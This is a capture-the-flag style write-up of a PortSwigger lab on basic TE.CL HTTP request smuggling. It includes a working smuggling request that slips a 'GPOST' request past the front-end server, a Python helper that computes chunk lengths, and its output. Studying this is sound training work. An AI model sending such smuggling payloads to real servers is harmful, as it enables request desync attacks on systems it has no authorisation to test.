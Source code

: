 # HTTP request smuggling, basic TE.CL vulnerability

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl), you'll learn: HTTP request smuggling, basic TE.CL vulnerability! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-2/images/%2020230127190609.png)

Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-2/images/%2020230127190619.png)

We can try to test the web application is vulnerable to HTTP request smuggling.

Let's send this request to Burp Suite's Repeater:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-2/images/%2020230127190655.png)

First, we can try to test TE.CL HTTP request smuggling, which is the front-end server uses `Transfer-Encoding` header and the back-end server uses `Content-Length` header.

**But before we do that, we need to ensure that the "Update Content-Length" option is unchecked, and show non-printable chars:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-2/images/%2020230127193636.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-2/images/%2020230127193647.png)

**Then, change the request method to POST:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-2/images/%2020230127193747.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-2/images/%2020230127193754.png)

**After that, we can build our smuggling request:**
```http
POST / HTTP/1.1
Host: 0a7700350455b0c2c1d18a7800ee0090.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

65
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0


```

The front-end server processes the `Transfer-Encoding` header, and so treats the message body as using chunked encoding. It processes the first chunk, which is stated to be 65 (In hex) bytes long, up to the start of the line following `smuggled=yes`. It processes the second chunk, which is stated to be zero length, and so is treated as terminating the request. This request is forwarded on to the back-end server.

The back-end server processes the `Content-Length` header and determines that the request body is 4 bytes long (`65\r\n`), up to the start of the line following `65`. The following bytes, starting with `GPOST`, are left unprocessed, and the back-end server will treat these as being the start of the next request in the sequence.

> Note: You need to include the trailing sequence `\r\n\r\n` following the final `0`. Which is pressing "Enter" twice.

**Hence, the smuggled request will be:**
```http
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0


```

**To count the chunk's length and smuggled `Content-Length`, I'll write a Python script:**
```py
#!/usr/bin/env python3

class Counter:
    def countLength(self, string):
        try:
            print(f'[+] Smuggled Content-Length: {len(string.encode("utf-8"))}')
        except:
            print('[-] Unable to count the smuggled Cotent-Length')

    def countChunkLength(self, string):
        try:
            print(f'[+] Chunk length in decimal: {len(string.encode("utf-8"))}')
            print(f'[+] Chunk length in hex: {hex(len(string.encode("utf-8")))[2:]}')
        except:
            print('[-] Unable to count the chunk length')

def main():
    counter = Counter()

    smuggledContentLengthString = '''\nsmuggled=yes\r\n0\r\n\r\n'''
    counter.countLength(smuggledContentLengthString)

    ChunkLengthString = '''GPOST / HTTP/1.1\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 11\r\n\r\nsmuggled=yes'''
    counter.countChunkLength(ChunkLengthString)

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/Portswigger-Labs/HTTP-Request-Smuggling)-[2023.01.27|20:23:55(HKT)]
└> python3 count_bytes.py
[+] Smuggled Content-Length: 20
[+] Chunk length in decimal: 101
[+] Chunk length in hex: 65
```

**Chunk length:**
```http
GPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 20\r\n
\r\n
smuggled=yes
```

**Smuggled `Content-Length`:**
```http
\n
smuggled=yes\r\n
0\r\n
\r\n
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-2/images/%2020230127201218.png)

We successfully smuggled the GPOST request!

# What we've learned:

1. HTTP request smuggling, basic TE.CL vulnerability